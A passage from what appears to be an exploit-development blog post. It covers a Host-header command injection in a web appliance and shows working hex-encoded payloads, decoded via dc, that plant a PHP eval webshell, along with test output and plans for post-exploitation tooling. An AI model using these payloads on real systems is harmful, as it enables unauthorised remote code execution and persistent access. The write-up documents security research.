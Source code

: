 This means you have to avoid any forward slashes in the Base64 output, which is very annoying. 

I found a better solution was to hex encode the PHP, and decode it with `dc`. This is better, but it still isn't amazing - the string injected is even longer.

{%highlight bash %}
$ python3 test2.py 
(+) Using command injection bug to inject webshell
Host: ' *; echo '16i 3C3F24613D666F70656E28222F7573722F6C6F63616C2F7777772F73797374656D5F616476616E6365645F636F6E74726F6C2E706870222C22772229206F722064696528293B24743D273C3F706870206576616C28245F504F53545B313333375D293B3F3E273B6677726974652824612C2474293B66636C6F736528202461293B3F3E P' | dc | php; '
None
(+) Checking for our webshell...
(+) Shell works!
True
$
{% endhighlight %}

I then realised we could simply encode a "echo 'shell code' > shell_path" and pass it to the shell using this trick, much shrinking our payload, which brings us to the final payload being tested below. 

{%highlight bash %}
$ python3 test3.py 
(+) Using command injection bug to inject webshell
Host: ' *; echo '16i 6563686F20273C3F706870206576616C28245F504F53545B313333375D293B3F3E27203E202F7573722F6C6F63616C2F7777772F73797374656D5F616476616E6365645F636F6E74726F6C2E706870 P' | dc | sh; '
None
(+) Checking for our webshell...
(+) Shell works!
True
$
{% endhighlight %}

We have a trivial check function that calls the webshell and validates it is, in fact, present. 

This was what has ended up being used in the current iteration of the exploit I wrote. The fine folks over at Metasploit adopted variant 2 (PHP dropper, hex encoding) after I mentioned it to them.

We can now move on to post-exploitation, and using the end-to-end exploit to upload a native or script payload to get a proper shell.

## Post-Exploitation Utilities

For post-exploitation, we need three things (in order)

1. A function to execute arbitrary PHP code using the webshell.
2. A function to execute shell commands using the webshell (by executing arbitrary PHP code with `system()` calls)
3. A function to upload files using the webshell.
4. A function to automatically run the cleanup utility.

A nice-to-have would be a file downloader, but I didn't write one, didn't need it. You can implement your own, just call `readfile()`. I might shovel one in later.
